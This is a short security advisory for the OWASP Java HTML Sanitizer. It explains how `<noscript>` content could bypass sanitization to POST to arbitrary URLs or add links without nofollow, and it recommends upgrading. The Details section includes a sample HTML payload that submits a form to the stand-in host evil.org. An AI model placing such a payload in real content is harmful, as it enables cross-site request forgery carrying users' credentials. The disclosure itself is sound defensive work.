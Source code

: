 # CVE-2011-4457

A vulnerability in the
[OWASP HTML Sanitizer](https://github.com/OWASP/java-html-sanitizer)

allows redirecting or POSTing to an arbitrary URL when the user
interacts with sanitized content and when JavaScript is disabled.

It also allows inclusion of links without
"[rel=nofollow](http://microformats.org/wiki/rel-nofollow)" when
JavaScript is disabled.

Crawlers that respect `nofollow` and which look for links inside
`<noscript>...</noscript>` could conclude a containing page has
link-spam.

Due to the constrained circumstances and the fact that it does not
allow exfiltration of data protected by the same-origin policy it is
considered low risk.  For policies that allow external links, the
escalation of privilege only includes POSTing, possibly including
upload of files chosen by the user.

We recommend upgrading to release 88 or later available
which does not break API compatibility with the previous release.

See the [project change log](../change_log.md) for more information.


## Details 

The attack hinges on the way `<noscript>` was parsed and rendered.

```Java
<noscript>
  <form method=POST action=http://evil.org/>
    <input name=x value=y>
    <input type=submit>
  </form>
</noscript>
```

will POST `x=y` to `http://evil.org/` when the submit button is
pressed and when the user has javascript turned off as when running
the NoScript extension.

The POST will carry user credentials so a vulnerable page can be used
to initiate XSRF against vulnerable servers.
